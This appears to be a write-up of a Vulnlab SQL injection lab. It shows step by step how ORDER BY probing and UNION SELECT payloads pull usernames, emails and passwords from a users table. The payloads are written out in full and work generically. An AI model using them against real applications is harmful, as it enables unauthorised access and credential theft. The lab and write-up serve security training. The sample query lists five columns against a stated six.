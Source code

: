 ```yaml
---
title: "[Vulnlab] SQL Injection - Find the passwords"
date: 2025-03-13 15:00:00 -500 
categories: [Vulnlab, SQL Injection - Login]
tags: [soc,redteam,sqli,docker,vulnlab]
author: Christoph K
---
```


# Situation:

We have a list of users and a `search bar` where we can input our `SQLi`. We also have access to the `PHP source code`.

![Login](assets/img/vulnlab/sqli/passwords/01.png)

Our mission - `passwords`


## Find out columns

First, I would start by finding out how many columns this table has. This is important because the `password` column might be present but hidden.

We can do this by incrementally increasing the `ORDER BY` value until we get an error:

`' ORDER BY 1 --  `
`' ORDER BY 2 --  `


We continue this process until an error occurs, indicating the table does not have that many columns. In this case, we can go up to `6`.




## Using `UNION` to merge tables

Now that we know the columns, we can try to merge the tables with following command:

`' UNION SELECT 1,2,3,4,5,6 FROM users -- `

The whole `SQL`statement could look like that:

```sql
SELECT id, username, email, name, surname FROM users WHERE username = '' 
UNION SELECT 1,2,3,4,5,6 FROM users -- '
```

![passwords](assets/img/vulnlab/sqli/passwords/02.png)




## Getting the `passwords` column into the table


Now that we know the number of columns and are able to merge the correct number of columns into our table, we need to display the `passwords` column.

We can try it like that:


`' UNION SELECT 1,2,3,password,5,6 FROM users -- `


Which number we replace does not matter, it will just replace the column like in the picture before.

It should be like that now:


![passwords](assets/img/vulnlab/sqli/passwords/03.png)



## Make is pretty


Now that we have the passwords attached to our original table, we can make it prettier. We move the `username` column to number 2 and `mail` to 3. 

```sql

' UNION SELECT 1,username,email,4,password,6 FROM users -- 
```

![passwords](assets/img/vulnlab/sqli/passwords/04.png)


# Conclusion:

By leveraging SQL Injection, we successfully extracted the passwords column from the database. This demonstrates why user input should always be sanitized and why using prepared statements or ORM frameworks can help prevent SQLi vulnerabilities.

